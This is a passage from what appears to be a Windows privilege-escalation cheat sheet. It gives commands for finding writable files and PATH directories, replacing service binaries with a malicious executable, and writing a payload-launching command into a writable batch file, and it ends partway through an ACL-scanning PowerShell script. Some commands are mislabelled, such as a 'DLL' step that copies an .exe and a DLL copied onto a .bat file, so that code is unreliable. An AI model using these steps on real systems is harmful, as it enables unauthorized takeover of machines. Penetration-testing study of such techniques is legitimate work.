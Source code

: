 	```
- Check permissions for specific files:
	```powershell
	Get-Acl C:\path\to\file | Format-List
	```
- Check permissions recursively for directories:
	```powershell
	icacls C:\path\to\directory /T /C
	```

#### Exploit Writable File to Gain Elevated Privileges
- If a sensitive file (such as a service binary) is writable by a non-privileged user, you can replace it with a malicious executable, which may be executed by a service or higher-privileged user, leading to privilege escalation

- Replace vulnerable files in sensitive locations with a malicious executable:
	```powershell
	Copy-Item -Path "C:\Path\To\malicious.dll" -Destination "C:\Path\To\WritableFile.bat"
	```
	Or, to copy a DLL:
	```powershell
	cp C:\Path\To\malicious.exe C:\Program Files\Vulnerable\app.exe
	```

#### Modify Vulnerable Files with Malicious Commands
- Modify vulnerable files with malicious commands:
	```powershell
	echo "powershell -NoProfile -ExecutionPolicy Bypass -Command Start-Process -FilePath 'C:\Path\To\malicious.exe'" > C:\Path\To\WritableFile.bat
	```

#### Common Target Directories
- Look for writable subdirectories:
	- `C:\Program Files`
	- `C:\Program Files (x86)
	- `C:\Windows\System32`
    Note: If any files in `C:\Windows\System32` or other critical system directories are writable, they are prime targets for privilege escalation.

    Critical Tip: Always test your access rights in non-destructive ways before replacing sensitive files to avoid corrupting critical system components.

# Path Variable Manipulation

#### Identify Writable Directories in `PATH`
```powershell
# Set up output file paths
$Step1_OutputFilePath = "E:\Step1_PATH_Directories_ACL.txt"
$Step2_OutputFilePath = "E:\Step2_PATH_Directories_ACL_Filtered.txt"

# Set a large width to prevent line wrapping
$PSDefaultParameterValues['Out-File:Width'] = 300

# Initialize Step 1 and Step 2 output files
New-Item -Path $Step1_OutputFilePath -ItemType File -Force | Out-Null
New-Item -Path $Step2_OutputFilePath -ItemType File -Force | Out-Null

# Regex patterns for matching ACL entries
$patterns = @(
    "Everyone .*Allow.*  .*FullControl.*",
    "Everyone .*Allow.*  .*Modify.*",
    "Everyone .*Allow.*  .*Write.*",
    "Everyone .*Allow.*  .*Delete.*",
    "Everyone .*Allow.*  .*TakeOwnership.*",
```